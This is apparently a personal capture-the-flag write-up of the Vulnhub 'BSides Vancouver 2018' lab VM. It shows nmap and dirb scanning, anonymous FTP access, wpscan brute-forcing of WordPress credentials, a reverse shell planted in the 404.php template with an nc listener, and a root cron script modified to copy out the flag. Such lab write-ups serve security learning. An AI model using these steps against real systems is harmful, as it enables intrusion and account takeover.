 ```yaml
---
title: "Vulnhub: BSides Vancouver 2018"
layout: archive
date:   2020-09-26
tags: Vulnhub
tags_label: true
---
```


Beginner-level difficulty, from vulnhub but originally from BSides Vancouver 2018, (Not ​another ​wordpress) Again one of my older writeups, I don't really explain my steps.

### Scanning:

```
Nmap scan report ​ for​ 192.168.56.112
Host is up (0.00011s latency).
Not​ shown: 997 closed ports
PORT ​ STATE​ SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
```

#### More Scanning:

```
crazyeights@es-base:~$ nmap -A -p- 192.168.56.112
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-26 15:16 EDT
Nmap scan report ​ for​ 192.168.56.112
Host is up (0.000070s latency).
Not shown: 65532 closed ports
PORT
STATE SERVICE VERSION
21​ /tcp open ftp vsftpd ​ 2.3.5
| ​ ftp​ -anon: ​ Anonymous​ ​ FTP login allowed (FTP code 230)
|​ _drwxr​ -xr-x
2 65534
65534
4096 Mar 03 2018 public
22/tcp open ssh OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol
[SNIP]
80​ /tcp open http Apache httpd ​ 2.2.22​ ((Ubuntu))
| ​ http​ -robots.txt: ​ 1 ​ disallowed entry
|​ _ ​ /backup_wordpress
|​ _http​ -server-header: Apache/2.2.22 (Ubuntu)
|​ _http​ -title: Site doesn't have a title (text/html).
Service ​ Info​ : OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### FTP Anonymous login:

```
crazyeights@es-base:~$ ftp 192.168.56.112
Connected ​ to​ 192.168.56.112.220 (vsFTPd 2.3.5)
Name (192.168.56.112:crazyeights): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode ​ to​ transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x 2 65534
65534
4096 Mar 03 2018 public
226 Directory send OK.
ftp> cd public
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r-- 1 0
0
31 Mar 03 2018 users.txt.bk
226 Directory send OK.
ftp> get users.txt.bk
local: users.txt.bk remote: users.txt.bk
[SNIP]
```

### Looking at users.txt.bk:

```
abatchy
john
mai
anne
doomguy
```

### HTTP:

![](/assets/images/bs17/22-000.png)

#### Web Enumeration:

```
crazyeights​ @es​ - ​ base:​ ~$ dirb ​ http:​ //192.168.56.112
GENERATED ​ WORDS:​ ​ 4612
---- Scanning ​ URL:​ ​ http:​ //192.168.56.112/ ----
+ ​ http:​ //192.168.56.112/cgi-bin/ (CODE:403|SIZE:290)
+ ​ http:​ //192.168.56.112/index (CODE:200|SIZE:177)
+ ​ http:​ //192.168.56.112/index.html (CODE:200|SIZE:177)
+ ​ http:​ //192.168.56.112/robots (CODE:200|SIZE:43)
+ ​ http:​ //192.168.56.112/robots.txt (CODE:200|SIZE:43)
+ ​ http:​ //192.168.56.112/server-status (CODE:403|SIZE:295)
```

#### Checking robots.txt:

```
robots.​ txt:
User-​ agent:​ *
Disallow:​ /backup_wordpress
```

### Checking out /backup\_wordpress:

![](/assets/images/bs17/22-002.png)

### Enumerating Wordpress Users:

```
crazyeights@es-base:~$ wpscan --url http://192.168.56.112/backup_wordpress/
-e u
[i] User(s) Identified:
[+] john
| Found By: Author Posts - Display Name (Passive Detection)
| Confirmed By:
| Rss Generator (Passive Detection)
| Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Login Error Messages (Aggressive Detection)
[+] admin
| Found By: Author Posts - Display Name (Passive Detection)
| Confirmed By:
| Rss Generator (Passive Detection)
| Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Login Error Messages (Aggressive Detection)
```

### Cracking users passwords:

```
crazyeights@es-​ base​ :~$ wpscan --url http://192.168.56.112/backup_wordpress/
--passwords lists/rockyou-40.txt --usernames john,admin
[​ + ​ ] Performing password attack ​ on​ Xmlrpc against ​ 2 ​ user/s
[​ SUCCESS​ ] - ​ john / enigma
```

Log into wordpress with credentials john:enigma

Go to Appearance > Editor > 404.php, and replace the template with a reverse shell.

##### Putting a reverse shell in 404.php:

Run nc -lvp 1234, then paste the reverse shell and save:

![](/assets/images/bs17/22-004.png)

If the listener does not connect immediately when the template is saved fo to wp-content/themes/twentysixteen/404.php

![](/assets/images/bs17/22-006.png)

### Priv. Escalation:

This might work, I didn’t test it:

![](/assets/images/bs17/22-008.png)

```
$ lsb_release -a
No​ LSB modules are available.
Distributor ID:
Ubuntu
Description:
Ubuntu 12.04.4 LTS
Release:
12.04
Codename:
precise
```

(There is probably an exploit for this too)

### Checking out wp\_config.php:

(Sometimes there are credentials)

![](/assets/images/bs17/22-010.png)

### Checking out crontab:

(Path of least resistance)

```
$ cat crontab
[SNIP]
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
[SNIP]
#$ * * * * root /usr/local/bin/cleanup
```

### Checking out cleanup:

![](/assets/images/bs17/22-012.png)

Getting the root flag in an extremely lazy way: Modifying cleanup script:

```
$ echo cp /root/flag.txt /home/flag.txt >> cleanup
$ cat cleanup
#!/bin/sh
[SNIP]
cp /root/flag.txt /home/flag.txt
```

Checking the /home directory for the flag:

```
$ ls -lai /home
total 32
393219 drwxr-xr-x 7 root  root 4096 Sep 26 13:35 .
     2 drwxr-xr-x 23 root root 4096 Mar 3 2018 ..
420171 -rw-r--r-- 1 root  root 248 Sep 26 13:36 flag.txt
[SNIP]
```

### Getting the flag:

```
$ ​ cat​ /home/flag.txt
Congratulations!
If you can ​ read​ this, that means you were able ​ to​ obtain root permissions
on​ this VM.
You should ​ be​ proud!
There are multiple ways ​ to​ gain access remotely, ​ as​ well ​ as​ ​ for​ privilege
escalation.Did you ​ find​ them ​ all​ ?
@abatchy17
```

FIN (ish).